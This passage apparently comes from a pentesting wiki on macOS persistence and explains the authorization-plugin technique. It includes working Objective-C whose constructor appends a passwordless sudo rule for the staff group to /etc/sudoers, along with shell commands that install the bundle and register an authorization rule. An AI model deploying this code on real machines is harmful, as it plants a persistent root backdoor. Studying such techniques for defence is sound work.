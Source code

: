 And therefore any attempt to use **`sudo` will work**.

{% hint style="danger" %}
Note that this directory is protected by TCC so it's highly probably that the user will get a prompt asking for access.
{% endhint %}

### Authorization Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0028/](https://theevilbit.github.io/beyond/beyond\_0028/)\
Writeup: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root and make extra configs
* TCC bypass: ???

#### Location

* `/Library/Security/SecurityAgentPlugins/`
  * Root required
  * It's also needed to configure the authorization database to use the plugin

#### Description & Exploitation

You can create an authorization plugin that will be executed when a user logs-in to maintain persistence. For more information about how to create one of these plugins check the previous writeups (and be careful, a poorly written one can lock you out and you will need to clean your mac from recovery mode).

```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
    NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
    system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```

**Move** the bundle to the location to be loaded:

```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```

Finally add the **rule** to load this Plugin:

```bash
cat > /tmp/rule.plist <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
            <key>class</key>
            <string>evaluate-mechanisms</string>
            <key>mechanisms</key>
            <array>
                <string>CustomAuth:login,privileged</string>
            </array>
        </dict>
```